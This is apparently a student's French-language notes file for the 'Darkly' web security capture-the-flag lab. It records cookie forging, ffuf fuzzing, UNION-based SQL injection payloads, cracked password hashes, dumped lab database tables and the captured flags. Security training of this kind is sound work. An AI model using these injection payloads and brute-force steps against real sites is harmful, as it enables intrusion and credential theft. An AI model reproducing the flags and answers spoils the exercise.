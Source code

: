 #+TITLE: Temp

* Login page :

Recover password - webmaster@borntosec.com
~flag - 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0~

La balise est cachee, si on supprime le contenu du form et qu'on submit, le flag nous est donne

* Cookies :
Cookies - I_am_admin 68934a3e9455fa72420237eb05902327
hashid 68934a3e9455fa72420237eb05902327
Le hash est en md5 est veut dire false

echo true | md5
74d9a83219cabaab06a69fd318873f335

Remplacons le cookie

* Search image :

ffuf -w payload.txt:FUZZ -u "http://192.168.56.103/?page=searchimg&id=FUZZ&Submit=Submit#" -fs 2410
5 UNION SELECT table_schema,table_name FROM information_schema.columns
5 UNION SELECT table_name,column_name FROM information_schema.columns
5 UNION SELECT title,comment FROM list_images
echo 'albatroz' | sha2
~flag - fe0ca5dd7978ae1baae2c1c19d49fbfbb37fe7905b9ad386cbbb8206c8422de6~

* Search users :
for ((i=0;i<1000;i++)) ; do echo $i >> payload.txt; done
ffuf -w payload.txt:FUZZ -u "http://192.168.56.103/?page=member&id=FUZZ&Submit=Submit#" -fs 2462
1 OR 1
5 UNION SELECT database(),2
5 UNION SELECT table_schema,table_name FROM information_schema.columns
5 UNION SELECT table_name,column_name FROM information_schema.columns
5 UNION SELECT user_id,planet FROM users
5 UNION SELECT user_id,countersign FROM users
5 UNION SELECT user_id,commentaire FROM users
echo 'fortytwo' | sha2
~flag - 3b4e8a30ecbfde518f50f2bda1912b40338ecd71821faeb1e9cdf44cefff95f5~

* GSource page :
?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c

* Login :
admin - shadow
~flag - b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2~

* Fuzzing :

url/whatever - htpasswd http://192.168.56.102/whatever/htpasswdd
root:8621ffdbc5698829397d97767ac13db3 - dragon
go to url/admin
~flag - d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff~

* Member survey :

modifier les parametres post dans le browser en mettant 42
~flag - 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa~



Database: Member_Brute_Force
Table: db_default
[2 entries]
+----+-------------------------------------------+----------+
| id | password                                  | username |
+----+-------------------------------------------+----------+
| 1  | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow) | root     |
| 2  | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow) | admin    |
+----+-------------------------------------------+----------+

Database: Member_Sql_Injection
Table: users
[4 entries]
+---------+-----------+--------+-----------+-----------+----------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------+
| user_id | town      | planet | country   | last_name | first_name     | Commentaire                                                                                                                                                          | countersign                                    |
+---------+-----------+--------+-----------+-----------+----------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------+
| 1       | Honolulu  | EARTH  | America   | Obama     | Barack Hussein | Amerca !                                                                                                                                                             | 2b3366bcfd44f540e630d4dc2b9b06d9               |
| 2       | Berlin    | Earth  | Allemagne | Hitler    | Adolf          | Ich spreche kein Deutsch.                                                                                                                                            | 60e9032c586fb422e2c16dee6286cf10 (oktoberfest) |
| 3       | Moscou    | Earth  | Russia    | Staline   | Joseph         | \\0418\\043E\\0441\\0438\\0444 \\0412\\0438\\0441\\0441\\0430\\0440\\0438\\043E\\043D\\043E\\0432\\0438\\0447 \\0414\\0436\\0443\\0433\\0430\\0448\\0432\\0438\\043B | e083b24a01c483437bcf4a9eea7c1b4d               |
| 5       | 42        | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good !                                                                                        | 5ff9d0165b4f92b14994e5c685cdce28               |
+---------+-----------+--------+-----------+-----------+----------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------+


Database: Member_images
Table: list_images
[6 entries]
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment                                                                                                               |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+


Database: Member_survey
Table: vote_dbs
[4 columns]
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| id_vote | int(11)      |
| nb_vote | int(11)      |
| subject | varchar(255) |
| vote    | float        |
+---------+--------------+


λ ~/gitlab/darkly/ main* ffuf -w ~/tmp/directory-list-2.3-medium.txt -u 'http://192.168.56.102/FUZZ'

 :: Method           : GET
 :: URL              : http://192.168.56.102/FUZZ
 :: Wordlist         : FUZZ: /Users/paure/tmp/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
# directory-list-2.3-medium.txt [Status: 200, Size: 6892, Words: 616, Lines: 130]
                        [Status: 200, Size: 6892, Words: 616, Lines: 130]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 6892, Words: 616, Lines: 130]
#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
images                  [Status: 301, Size: 184, Words: 6, Lines: 8]
# Copyright 2007 James Fisher [Status: 200, Size: 6892, Words: 616, Lines: 130]
# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 6892, Words: 616, Lines: 130]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 6892, Words: 616, Lines: 130]
#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
admin                   [Status: 301, Size: 184, Words: 6, Lines: 8]
# Priority ordered case-sensitive list, where entries were found [Status: 200, Size: 6892, Words: 616, Lines: 130]
#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
# on at least 2 different hosts [Status: 200, Size: 6892, Words: 616, Lines: 130]
audio                   [Status: 301, Size: 184, Words: 6, Lines: 8]
css                     [Status: 301, Size: 184, Words: 6, Lines: 8]
includes                [Status: 301, Size: 184, Words: 6, Lines: 8]
js                      [Status: 301, Size: 184, Words: 6, Lines: 8]
# This work is licensed under the Creative Commons [Status: 200, Size: 6892, Words: 616, Lines: 130]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 6892, Words: 616, Lines: 130]
fonts                   [Status: 301, Size: 184, Words: 6, Lines: 8]
errors                  [Status: 301, Size: 184, Words: 6, Lines: 8]
whatever                [Status: 301, Size: 184, Words: 6, Lines: 8]
                        [Status: 200, Size: 6892, Words: 616, Lines: 130]
:: Progress: [220560/220560] :: Job [1/1] :: 2313 req/sec :: Duration: [0:00:51] :: Errors: 0 ::
